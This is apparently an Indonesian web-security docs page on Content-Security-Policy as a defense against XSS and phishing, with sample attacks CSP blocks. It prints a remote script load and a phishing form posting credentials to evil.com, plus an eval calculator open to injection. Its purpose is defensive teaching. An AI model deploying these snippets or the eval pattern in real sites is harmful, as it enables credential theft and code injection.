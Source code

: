 ```yaml
---
sidebar_position: 2
---
```


# Kebijakan Keamanan Konten

## Pendahuluan tentang Kebijakan Keamanan Konten

Artikel ini mengemukakan cara untuk mengintegrasikan konsep __defense in depth__ ke sisi klien aplikasi web. Dengan menyuntikkan header Content-Security-Policy (CSP) dari server, browser mengetahui dan mampu melindungi pengguna dari panggilan dinamis yang akan memuat konten ke halaman yang sedang dikunjungi.

## Konteks

Peningkatan kerentanan XSS (Cross-Site Scripting), clickjacking, dan kebocoran lintas situs menuntut pendekatan keamanan __defense in depth__ yang lebih baik.

### Pertahanan terhadap XSS

CSP bertahan terhadap serangan XSS dengan cara berikut:

#### 1. Membatasi Skrip Sebaris

Dengan mencegah halaman menjalankan skrip sebaris, serangan seperti menyuntikkan

```html
<script>document.body.innerHTML='defaced'</script>
```

tidak akan berhasil.

#### 2. Membatasi Skrip Jarak Jauh

Dengan mencegah halaman memuat skrip dari server sembarangan, serangan seperti menyuntikkan

```html
<script src="https://evil.com/hacked.js"></script>
```

tidak akan berhasil.

#### 3. Membatasi JavaScript yang Tidak Aman

Dengan mencegah halaman menjalankan fungsi teks-ke-JavaScript seperti `eval`, situs web akan aman dari kerentanan seperti ini:

```js
// Kalkulator Sederhana
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`Jumlahnya adalah: ${sum}`); ```

#### 4. Membatasi pengiriman Formulir

Dengan membatasi tempat formulir HTML di situs web Anda dapat mengirimkan datanya, menyuntikkan formulir phishing juga tidak akan berhasil.

```html
<form method="POST" action="https://evil.com/collect">
<h3>Sesi telah berakhir! Silakan masuk lagi.</h3>
<label>Nama pengguna</label>
<input type="text" name="username"/>

```
